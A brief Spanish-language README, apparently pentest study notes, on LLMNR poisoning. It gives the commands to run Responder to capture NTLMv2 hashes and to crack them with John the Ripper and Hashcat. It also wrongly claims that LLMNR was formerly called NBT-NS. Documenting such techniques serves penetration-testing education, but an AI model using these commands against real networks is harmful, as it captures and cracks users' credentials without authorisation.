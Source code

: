 # Qué es LLMNR?

- Se usa para identificar hosts cuando el DNS falla.
- Antes se conocía como `NBT-NS`
- El servicio devuelve el `username` de un usuario y un `Hash NTLMv2` cuando responde.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Iniciando Ataque (Responder)
En el momento en el que un usario acceda a un recurso que no existe, solicitaremos que se conecte a nosotros y obtendremos su Hash NTMLv2.

```
python /usr/share/responder.py -I tun0 -rdw
```

[Ver el Responder en proceso](Images/Responder/README.md)

[Ver la obtención de Hash NTMLv2](Images/Hash/README.md)

# Romper el Hash (JohnTheRipper)

```
john --wordlist=/usr/share/wordlists/rockyou.txt <hashfile>
```

# Romper el Hash (Hashcat)

```
hashcat -m 5600 <hashfile> rockyou.txt --force
```
